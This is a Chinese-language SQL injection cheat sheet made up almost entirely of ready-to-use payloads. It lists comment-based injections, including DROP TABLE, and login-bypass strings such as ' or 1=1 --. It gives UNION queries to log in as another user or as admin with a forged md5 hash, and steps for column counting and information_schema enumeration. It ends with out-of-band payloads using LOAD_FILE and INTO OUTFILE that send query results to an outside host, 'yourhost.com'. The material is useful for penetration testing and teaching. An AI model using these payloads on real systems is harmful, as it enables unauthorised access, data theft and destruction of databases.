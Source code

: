 # 注释型注入

- 注释忽略 : name'-- 或者name; DROP TABLE ... /* 

```
SELECT * FROM ... WHERE username = 'admin'--' AND password = 'password'
```

- 判断版本高于3.23.02 : /*!32302 1/0, */

```
SELECT /*!32302 1/0, */ 1 FROM tablename 
```

# 联合查询注入

- 查询漏洞 : UNION (ALL) statement

以其他用户的登录

```
' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
```

# 登录注入

- 使用上述两种方法构造

```
admin' --

admin' #

admin' /*

' or 1=1 --

' or 1=1 #

' or 1=1 /*

') or '1'='1 --

') or ('1'='1 --

' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
```

- 针对密码非数据库hash的方法需要构造一个md5码
```
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
```

# 找出数据表的列数

- 使用order by
```
依次执行
ORDER BY 1--
ORDER BY 2--
ORDER BY N-- so on
```

# mysql 数据库注入
- 执行
```
SELECT table_name FROM information_schema.tables WHERE table_schema = 'tablename'

SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = 'tablename'
```

# 溢出
```
?vulnerableParam=-99 OR (SELECT LOAD_FILE(concat('\\\\',({INJECTION}), 'yourhost.com\\'))) 
Makes a NBNS query request/DNS resolution request to yourhost.com

?vulnerableParam=-99 OR (SELECT ({INJECTION}) INTO OUTFILE '\\\\yourhost.com\\share\\output.txt')
Writes data to your shared folder/file

{INJECTION} = You want to run the query.
```